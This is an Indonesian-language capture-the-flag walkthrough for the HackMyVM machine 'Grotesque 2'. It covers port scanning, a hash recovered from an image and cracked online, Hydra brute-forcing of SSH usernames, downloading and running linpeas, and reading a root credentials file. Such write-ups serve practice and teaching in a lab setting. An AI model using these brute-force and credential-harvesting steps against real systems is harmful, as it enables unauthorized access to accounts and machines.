


<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://downloads.hackmyvm.eu/grotesque2.zip">Grotesque 2</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/x6cx61x63x61x73">cromiphi</a></h4>

## NMAP

Oke seperti biasa pertama yang kita lakukan ialah scan port yang ada di dalam vm tersebut dengan `nmap` :

```console
┌─[root@kina] - [~/Downloads/CTF/HackMyVm/Grotesque/2] - [7935]
└─[$] nmap -A 192.168.0.199                                                                                                 [23:22:27]
Starting Nmap 7.70 ( https://nmap.org ) at 2021-10-19 23:23 EDT
Stats: 0:04:10 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.97% done; ETC: 23:27 (0:00:00 remaining)
Nmap scan report for 192.168.0.199
Host is up (0.00069s latency).

```
Disini sangat aneh karena port http yang terbuka mulai dari 33-555 jadi saya coba mengecek nya menggunakan script

## HTTP
Oke disini saya mengecek http dengan semua port dari 33-555 menggunakan script bash

```console
┌─[root@kina] - [~/Downloads/CTF/HackMyVm/Grotesque/2/index] - [7950]
└─[$] for i in {23..600};do wget 192.168.0.199:$i -O index$i; done
```1

setelah itu saya cek menggunakan command sort untuk mengurutkan file dari yang terkecil sampai terbesar penyimpananya

```console
┌─[root@kina] - [~/Downloads/CTF/HackMyVm/Grotesque/2/index] - [7951]
└─[$] ls -la | sort                                                                                                         [23:35:53]
drwxr-xr-x 2 root root 20480 Oct 19 23:35 .
drwxr-xr-x 3 root root 20480 Oct 19 23:29 ..
-rw-r--r-- 1 root root     0 Oct 19 23:35 index23
-rw-r--r-- 1 root root     0 Oct 19 23:35 index24
-rw-r--r-- 1 root root     0 Oct 19 23:35 index25
-rw-r--r-- 1 root root     0 Oct 19 23:35 index26
-rw-r--r-- 1 root root     0 Oct 19 23:35 index27
...
-rw-r--r-- 1 root root   412 Oct 19 23:35 index96
-rw-r--r-- 1 root root   412 Oct 19 23:35 index97
-rw-r--r-- 1 root root   412 Oct 19 23:35 index98
-rw-r--r-- 1 root root   412 Oct 19 23:35 index99
-rw-r--r-- 1 root root   762 Oct 19 23:35 index258
total 2144
```
dan ternyata port ke 258 memiliki penyimpanan yang lebih banyak jadi saya cek ke web menggunakan port 258.



# SSH

Oke disini kita dapat list username. sedangkan password nya ada di gambar Ibu Jari dan dikurangi dengan 100


```console
b6e705ea1249e2bb7b0fd7dac9fcd1b3
                             100
b6e705ea1249e2bb7b0fd7dac9fcd0b3 => ini adalah password ssh nya
```

selanjutnya kita crack passsword ssh nya menggunakan crack online yaitu crackstation



Karena kita sudah mendapatkan password ssh nya selanjutnya kita mencari username dari ssh nya menggunakan hydra

```console
┌─[root@kina] - [~/Downloads/CTF/HackMyVm/Grotesque/2] - [7963]
└─[$] hydra -L user.list -p solomon1 192.168.0.199 ssh                                                                      [23:46:39]
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-19 23:46:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:6/p:1), ~1 try per task
[DATA] attacking ssh://192.168.0.199:22/
[22][ssh] host: 192.168.0.199   login: ang**   password: solo****
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-19 23:46:55
```

lalu kita ssh menggunakan user dan password tadi dan didapatkan user.txt. selanjutnya kita harus mendapatkan hak akses root. saya  menggunakan linpeas untuk mengetahui kerentanannya

```console
angel@grotesque:~$ wget https://github.com/carlospolop/PEASS-ng/raw/master/linPEAS/linpeas.sh
--2021-10-19 22:49:49--  https://github.com/carlospolop/PEASS-ng/raw/master/linPEAS/linpeas.sh
Resolving github.com (github.com)... 20.205.243.166
Connecting to github.com (github.com)|20.205.243.166|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh [following]
--2021-10-19 22:49:50--  https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.110.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 477235 (466K) [text/plain]
Saving to: ‘linpeas.sh’

linpeas.sh                        100%[============================================================>] 466.05K   673KB/s    in 0.7s    

2021-10-19 22:49:51 (673 KB/s) - ‘linpeas.sh’ saved [477235/477235]

angel@grotesque:~$ chmod +x linpeas.sh 
angel@grotesque:~$ ./linpeas.sh 
```
dan ditemukan 
```console

══════════╣ Unexpected in root
/vmlinuz.old
/rootcreds.txt
/initrd.img
/initrd.img.old
/vmlinuz
```
dan kita cat 
```console
angel@grotesque:~$ cat /rootcreds.txt 
root creds

root
sweet*****
root creds
```
ditemukan password root. kita su root dan dapat hak akses root dan juga flag root
